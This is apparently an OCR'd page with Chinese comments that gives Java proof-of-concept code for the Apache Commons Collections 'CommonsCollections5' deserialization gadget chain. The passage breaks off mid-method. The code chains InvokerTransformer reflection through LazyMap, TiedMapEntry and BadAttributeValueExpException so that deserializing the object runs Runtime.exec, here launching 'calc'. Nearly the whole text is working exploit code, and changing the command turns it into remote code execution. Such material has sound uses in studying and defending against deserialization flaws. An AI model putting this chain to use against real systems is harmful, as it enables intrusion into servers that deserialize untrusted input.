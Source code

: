 构造代码
```java
package payload;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

class CommonsCollections5Test {
    public static void main(String[] args) throws Exception {
        //        ((Runtime) Runtime.class.getMethod("getRuntime").invoke(null)).exec("calc");
        Transformer[] transformers = new Transformer[]{
            // 传入Runtime类
            new ConstantTransformer(Runtime.class),
            // 使用Runtime.class.getMethod()反射调用Runtime.getRuntime()
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            // invoke()调用Runtime.class.getMethod("getRuntime").invoke(null)
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
            // 调用exec("calc")
            new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"calc"})
        };
        Transformer chain = new ChainedTransformer(transformers);
        Map map = new HashMap();
        Map lazyMap = LazyMap.decorate(map, chain);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "");
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, entry);

        serialize(badAttributeValueExpException);
        deserialize();
    }

    public static void serialize(Object obj) {
        try {
            ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("test.ser"));
            os.writeObject(obj);
            os.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void deserialize() {
        try {
            ObjectInputStream is = new ObjectInputStream(new FileInputStream("test.ser"));
            is.readObject();
        } catch (Exception e) {
```